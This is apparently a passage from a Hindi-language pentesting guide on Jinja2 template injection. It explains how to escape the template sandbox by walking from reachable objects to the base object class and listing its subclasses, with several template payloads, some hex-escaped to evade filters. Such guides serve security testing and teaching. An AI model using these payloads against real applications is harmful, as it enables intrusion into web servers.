 ```python

```
## **Jinja Injection**

सबसे पहले, Jinja इंजेक्शन में आपको **सैंडबॉक्स से बाहर निकलने का एक तरीका ढूंढना होगा** और नियमित पायथन निष्पादन प्रवाह तक पहुंच प्राप्त करनी होगी। ऐसा करने के लिए, आपको **वस्तुओं का दुरुपयोग करना होगा** जो **गैर-सैंडबॉक्स वातावरण से हैं लेकिन सैंडबॉक्स से सुलभ हैं**।

### Global Objects तक पहुंच

उदाहरण के लिए, कोड `render_template("hello.html", username=username, email=email)` में वस्तुएं username और email **गैर-सैंडबॉक्स पायथन वातावरण से आती हैं** और **सैंडबॉक्स वातावरण** के अंदर **सुलभ** होंगी।\
इसके अलावा, अन्य वस्तुएं हैं जो **हमेशा सैंडबॉक्स वातावरण से सुलभ** होंगी, ये हैं:
```
[]
''
()
dict
config
request
```
### Recovering \<class 'object'>

फिर, इन ऑब्जेक्ट्स से हमें **`<class 'object'>`** क्लास तक पहुंचने की आवश्यकता है ताकि हम परिभाषित **क्लासेस** को **recover** करने की कोशिश कर सकें। इसका कारण यह है कि इस ऑब्जेक्ट से हम **`__subclasses__`** मेथड को कॉल कर सकते हैं और **non-sandboxed** python env से सभी क्लासेस तक पहुंच सकते हैं।

उस **ऑब्जेक्ट क्लास** तक पहुंचने के लिए, आपको **एक क्लास ऑब्जेक्ट** तक पहुंचने की आवश्यकता है और फिर **`__base__`**, **`__mro__()[-1]`** या `.`**`mro()[-1]`** में से किसी एक तक पहुंचें। और फिर, **इस ऑब्जेक्ट क्लास** तक पहुंचने के बाद हम **`__subclasses__()`** को **call** करते हैं।

इन उदाहरणों को देखें:
```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object".
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% raw %}
{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
```